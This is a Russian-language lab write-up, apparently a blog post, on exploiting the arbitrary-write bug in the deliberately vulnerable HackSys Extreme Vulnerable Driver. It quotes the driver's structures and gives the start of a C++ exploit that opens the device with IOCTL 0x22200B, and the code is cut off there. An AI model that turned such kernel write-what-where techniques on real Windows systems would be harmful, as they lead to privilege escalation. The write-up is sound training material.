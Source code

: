 ```yaml
---
title: Windows Kernel Exploitation 0x02 | Arbitrary Write [ru]
published: true
tags: [ "kernelexploitation", "windows", "lab" ]
image: assets/previews/11.jpg
layout: page
pagination: 
  enabled: true
---
```


В следующей лабе видим структуру:

[link](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/ArbitraryWrite.h)

```c
typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, *PWRITE_WHAT_WHERE;
```

А в конце:

```c
NTSTATUS
TriggerArbitraryWrite(
    _In_ PWRITE_WHAT_WHERE UserWriteWhatWhere
);
```

К сорцам:

[link](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/ArbitraryWrite.c)

Собственно запустим сплойт, посмотрим windbg:

```cpp
#include <Windows.h>
#include <string.h>
#include <stdio.h>

#define IO_CODE 0x22200B

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

int main() {
    
    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
    HANDLE hDevice = CreateFileA(kDevName,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error - dailed to get file handle!\n");
        system("pause");
        return -1;
    }
    printf("[+] Successfully obtained a handle to the driver\n");
    
```